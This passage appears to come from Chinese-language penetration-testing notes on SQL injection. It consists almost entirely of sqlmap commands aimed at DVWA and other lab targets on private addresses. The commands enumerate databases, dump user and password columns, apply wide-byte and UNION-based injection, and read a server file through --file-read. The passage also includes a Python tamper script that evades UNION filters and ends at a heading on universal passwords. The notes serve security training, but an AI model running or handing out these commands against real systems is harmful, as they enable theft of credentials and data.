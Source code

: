 ```shell
# 获取数据库
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch --dbs
# 获取表
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa --tables
# 获取列
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users --columns
# 获取数据
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users -C user --dump
```

```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbs --batch
```

**宽字节注入**

```shell
sqlmap -u http://192.168.163.132/sqli/02.php?id=2 --tamper unmagicquotes -D iwebsec --dump
```

**post 方式测试**

```shell
sqlmap -r a.txt -p uname --technique=B --dbms=mysql -D dvwa -T users -C username,password --stop=1 --dump
# --where="username='admin'"
# --limit 1
```

**post 方式使用 https 请求**

```shell
sqlmap.py -r d:\Temp\a.txt -p user_name --proxy="https://127.0.0.1:8080" --force-ssl --dbms mysql --prefix="admin'"  --file-read "/flag" -v
```

**指定前缀、后缀、脚本、注入方式**

```shell
sqlmap.py -u "http://192.168.163.129:37412/vulnerabilities/fu1.php?id=1" -p id --tamper=space2comment,doubleunion --technique=U --prefix="')" --suffix="%23" --union-cols=4 --union-char=2 --dbs
```

双写 UNION 脚本 `doubleunion.py`

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def tamper(payload, **kwargs):
    rep = { 
        "UNION": "UunionNION",
    }
    for k,v in rep.items():
        payload = payload.replace(k, v)
    return payload
```
## 5. 万能密码
